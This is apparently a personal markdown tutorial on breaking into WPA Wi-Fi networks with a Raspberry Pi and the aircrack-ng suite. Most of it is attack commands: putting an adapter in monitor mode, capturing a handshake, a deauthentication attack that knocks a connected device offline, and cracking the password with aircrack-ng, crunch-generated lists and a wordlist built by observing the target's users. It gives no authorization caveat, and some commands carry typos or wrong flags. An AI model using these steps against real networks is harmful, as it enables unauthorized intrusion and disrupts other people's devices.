 # Get Wi-fi Handshake
>This is just a reminder for me to keep in mind how to get the wi-fi handshake while monitoring particular wi-fi signal.
>I used Wi-fi Adaptor plugged into Raspberry Pi running NOOBS.
## Connecting Raspberry Pi
>Open terminal, make sure `SSH` is enabled in your raspberry pi.
```
$ ssh <userName>@<IP>
```
>Example: `ssh pi@192.168.1.100`.
>If it ask you something, type `yes` and then enter your user password.
## Before Starting
```
$ sudo apt-get update
$ sudo apt-get upgrade
```
## Downloading Airmon-ng
```
$ sudo apt-get install -y aircrack-ng
```
## Checking Available Wi-fi Adaptors
>Since you have 2 wi-fi adaptors, make sure you use one for monitoring while using other to control your raspberry pi.
>You could either checking your adaptors by;
```
$ ifconfig
```
>or, since you already installed `airmon-ng`
```
$ sudo airmon-ng
```
>You will see `wlan0` and `wlan1` AND their IP's. Keep in mind which one is which.

## Starting Monitoring
```
$ sudo airmon-ng start wlan0
```
>This code will start monitoring mode for `wlan0`. If you were connecting the raspberry pi from this adaptor, your connection will stop.
>After this code, you will also see that the name of `wlan0` turns to `wlan0mon`. This is the name you will use after this point.
```
$ sudo airodump-ng wlan0mon
```
>This line will list you all the available wi-fi signals and their properties for you. `BSSID`,`DATA`,`CH` and so on.
>After choosing one, press `ctrl+c` to stop listing.

## Getting the Handshake
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> --write <namehandshakedocument> wlan0mon
```
>Example: `sudo airodump-ng --bssid EC:08:6B:C7:24:CA --channel 1 --write handshake wlan0mon`.
>This will start documentation with the name of `handshake`.
>To get the handshake, at least one device should connect to that wi-fi. If you can not;

### Deauth Attack
>With this attack, you can drop one device already connected to wi-fi. And while the device trying to reconnect, you will get the handshake.
>To do this attack while listening the wi-fi, you should open a new terminal window and connect to raspberry pi again.
>After that,
```
$ sudo airodump-ng --bssid <BSSID> --channel <CH> wlan0mon
$ sudo aireplay-ng --deauth <MSECONDS> -a <BSSID> -c <TARGERDEVICEMACADDRESS> wlan0mon
```
>Example: `sudo aireplay-ng --deauth 1000 -a EC:08:6B:C7:24:CA -c 28:3F:69:46:2C:F2 wlan0mon`.
-Tip: The greater `MSECONDS` is, the longer that device gets hard time connecting to wi-fi.
>After the attack, at the first terminal, you shoul be able to see `WPA handshake: EC:08:6B:C7:24:CA` on top.

## Decrypting
>This is the hard part. You have the handshake but, it is still encrypted. However, there are few methods to decrypt.
>Your `handshake` document will be waiting at `/home/pi`. You will see some new documents, you will only going to need the one named `handshake.cap`.

### Aircrack-ng
>You could try using `aircrack-ng` but, it will take so much time.
```
$ sudo aircrack-ng handshake.cap
```
### Listing All Combinations
```
$ sudo crunch <NUMBER> <NUMBER> <CHARACTERS> -a <FILENAME> <SPECIALS>
```
>Example: `sudo cruch 4 6 123ab -a word-list -t a@@@@b`.
>What this line do is, listing all the possible combination password that has min `4`, max `6` characters; the characters/numbers of `1, 2, 3, a and b` will be used and that starts with `a` and ends with `b`.
>Since passwords are long and complicated than just normal texts, I would guess this will also take some time.

### Making Your Own rockyou List
>`rockyou.txt` is a list of common password on internet. And this is where things gets interesting. Know your target, observe the users, try to guess possible key words and write them all.
>After you are done with rockyou list,
```
$ sudo aircrack-ng handshake.cap -w rockyou
```
>This will compare all the possible passwords and give you the result. It could fail or success, depends on how good your rockyou list.

## To Turn Your Adaptor Back On
```
$ sudo airmon-ng stop wlan0mon
```

